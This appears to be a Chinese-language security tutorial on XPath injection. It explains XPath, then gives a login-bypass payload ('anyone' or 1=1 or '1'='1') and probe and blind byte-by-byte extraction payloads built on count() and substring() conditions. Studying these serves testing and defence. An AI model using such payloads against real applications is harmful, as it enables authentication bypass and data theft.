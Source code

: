 ## XPATH Injection

### XPATH 基本概念

XPath 即为 XML 路径语言，是 W3C XSLT 标准的主要元素，它是一种用来确定 XML（标准通用标记语言的子集）文档中某部分位置的语言。

XPath 基于 XML 的树状结构，有不同类型的节点，包括元素节点，属性节点和文本节点，提供在数据结构树中找寻节点的能力，可用来在 XML 文档中对元素和属性进行遍历。

XPath 使用路径表达式来选取 XML 文档中的节点或者节点集。这些路径表达式和我们在常规的电脑文件系统中看到的表达式非常相似。

更多信息可参考：https://www.w3school.com.cn/xpath/index.asp

如果信息被存储在XML文档中，那么查询信息的方法就是借助XPATH语句实现。虽然XML并不是存储大量信息的首选方式，但仍有可能存在。可能使用XML存放信息的情况有：
- 配置文件
- Internet交换文档使用了XML。
- 小型数据文件
- 物联网设备中的信息


### XPATH 注入示例


下面是一个XPath查询语句，获取loginID为abc的所有user数据。
```
//users/user[loginID/text()=’abc’ and password/text()=’test123’]
```
用户需要提交正确的loginID和password才能返回结果。但如果黑客在 loginID 字段中输入：anyone' or 1=1 or '1'='1 并在 password 中输入：123，或任意字符串，就能绕过校验，成功获取所有user数据，原语句就变成如下句子：
```
//users/user[LoginID/text()='anyone' or 1=1 or '1'='1' and password/text()='123']
```

#### 渗透思路

任何时候，在探查sql注入时发现注入点又不能成功时，可以尝试下列XPATH注入：

1.尝试提交下列注入载荷，并确定它们是否能够引起应用程序行为变化，但又不会造成错误。

若输入框要求输入字符串时：
```
' or count(parent::*[position()=1])=0 or 'a'='b

' or count(parent::*[position()=1])>0 or 'a'='b
```
若输入框要求输入字符串时：

```
1 or count(parent::*[position()=1])=0 

1 or count(parent::*[position()=1])>0 
```

2.如果上面的任何字符串导致应用程序的行为发生改变，但不会造成错误，很可能可以通过设计测试条件，一次提取一个字节的信息，从而获取任意数据。使用一系列以下格式的条件确定当前节点的父节点的名称：
```
substring(name(parent::*[position()=1]),1,1)='a

substring(name(parent::*[position()=1]),1,1)='b
```
